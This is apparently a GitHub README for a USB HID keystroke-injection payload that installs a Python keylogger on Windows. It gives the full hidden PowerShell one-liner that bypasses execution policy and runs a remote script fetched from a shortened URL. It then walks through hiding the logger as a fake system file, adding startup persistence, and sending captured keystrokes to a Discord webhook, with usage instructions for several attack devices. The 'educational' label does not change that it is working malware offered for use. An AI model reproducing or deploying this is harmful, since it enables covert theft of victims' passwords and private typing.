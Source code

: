 THIS IS ONLY MADE FOR EDUCATIONAL PURPOSES


# What it Does:

This payload executes a powershell command that downloads a python keylogger and runs it. This keylogger sends the keys pressed over discord using a webhook.

# Dependencies:

- Windows
- Python
- User is admin

# How to use:

## Pico-Ducky

If you have a [pico-ducky](https://github.com/dbisu/pico-ducky) which is what this payload was originally built for you just download the keylog-starter.dd and place it in the root of your pico directory. If you have a pico-ducky without wifi you need to rename it to ``payload.dd`` ``payload2.dd`` ``payload3.dd`` or ``payload4.dd`` read more here [here](https://github.com/dbisu/pico-ducky).

## Evilcrow cable-pro

Copy the contents of the ``keylog-starter-evilcrow.h`` to your ``payload.h`` file on your [EvilCrow Cable-pro](https://github.com/joelsernamoreno/EvilCrowCable-Pro/tree/main)

## P4wnP1 A.L.O.A

I am working on a version for HID script

## Any other ducky script compatible tools

I havent tested any others but if you do please open up an issue and tell me how it went

# How it Works:

## The rubber ducky script
When the grabber.dd runs it opens a run dialoge with admin privileges and enters this script.

```powershell
powershell -W h -NonI -NoP -Ep bypass -c "$dc = '<your discord webhook here>'; irm https://shorturl.at/blvGV | iex"
```
This line opens a hidden windows with ``-W h`` a non interactive windows with ``-NonI`` no user profiles with ``NoP`` and bypasses the anti script execution policy using ``-Ep bypass``
Then it sets the ``$dc`` variable to your webhook.
And last but not least it downloads the ekylog-activator.ps1 script and executes it. The download link is shortened to fit inside the run dialoge. (I want to host my own site in the future where i can have my own directly short links)

(copied from the [chrome password stealer](https://github.com/simen64/Pico-HID-Scripts/tree/main/chrome-password-stealerw) README thats made by me)

## The activator script
The script is used to configure the actual logger.

### Commands ran by the ps script:

1. We make a directory called ``system32`` in the C: drive using mkdir ``C:\system32\``. I decided to call it ``system32`` as many people would not want to delete the a folder named system32.
2. Next we enter the directory using ``cd C:\system32\``
3. Then we run `iwr -Uri https://raw.githubusercontent.com/simen64/Pico-HID-Scripts/main/discord-keylogger/logger.py -OutFile C:\system32\sys-file.py` to download the keylogger and spit it out as sys-file.py (again to trick the user to not deleting the file)
4. After we have the logger we install the needed libraries ``py -m pip install discordwebhook pynput``
5. Then we create a file called startup.bat to run the keylogger on startup ``'@echo off', 'start /B pythonw.exe "C:\system32\sys-file.py"' | Set-Content -Path 'C:\system32\startup.bat'``
6. To make it run at startup we need to copy it to the startup folder using this command ``cp 'C:\system32\startup.bat' '$Env:USERPROFILE\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup'`` this is why we need the user to be admin so we can access the startup folder
7. Last but now least we use this command ``Python sys-file.py <your discord webhook here>"`` to run the keylogger the webhook is being ported as an anrgument and will later saved in a file on the victims computer.
